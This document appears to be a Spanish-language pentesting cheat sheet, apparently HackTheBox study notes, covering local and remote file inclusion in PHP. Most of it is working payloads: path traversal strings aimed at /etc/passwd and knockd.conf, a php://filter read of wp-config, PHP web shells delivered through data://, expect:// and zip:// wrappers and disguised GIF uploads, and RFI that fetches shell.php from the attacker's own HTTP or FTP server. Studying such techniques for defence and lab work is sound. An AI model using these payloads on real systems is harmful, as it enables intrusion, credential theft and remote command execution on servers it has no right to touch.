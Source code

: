 # LFI & Path Traversal

## LFI
- [Payloads Fuzzing](https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt)
    - [An other one but for linux paths](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
    - [Windows paths](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
- Ejemplo para bypassear filtros: `....//....//....//....//etc/passwd`
- Encodearlo en URL también sirve: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

## como poder ver archivos mediante path traversal con PHP wrappers
- `php://filter/read=convert.base64-encode/resource=ARCHIVO-PHP`
- Con esto podriamos ver una clave en texto plano en un wordpress, en el wp-config por ejemplo, el phpinfo, etc.

## Ejemplo de RCE
- `echo '<?php system($_GET["cmd"]); ?>' | base64`
- `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

## Expect PHP Wrapper
- Este wrapper permite correr comandos directo desde URL parecido a las web shells
```bash
GNT@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## RFI (Remote file inclusion)
- Permite a un atacante incluir un archivo generalmente explotando la inclusión de un archivo dinamico implementado en el aplicativo.
- Ocurre cuando en un user input no hay una validación apropiada.
- en PHP podemos chequearlo con `allow_url_include`, también podemos directamente incluir un URL como payload.
    - `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

### RCE + RFI
- `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
- `python3 -m http.server 80`
- `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
- con ftp `python3 -m pyftpdlib -p 21`
- `http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`

## LFI + File upload

### Mediante una imagen
- `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`

### Zip upload
- `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
- `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`

### knockd LFI file
- [fuente](https://sirensecurity.io/blog/port-knocking/)
- knockd es un daemon que se utiliza para abrir puertos en un firewall que está cerrado.
- Por ejemplo podemos visitar: `../../../../../../../../../../etc/knockd.conf`
- Y nos devuelve: `[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn`
- Esto significa que el puerto 22 está cerrado y que knockd está configurado para abrirlo.
- Para eso vamos a hacer un for loop:

```bash

for x in 4000 5000 6000; do
nmap -Pn --host-timeout 201 --max-retries 0 -p $x $IP;
done

```

- Esto nos va a dar el puerto que está abierto, y después podemos hacer un reverse shell con el puerto 22.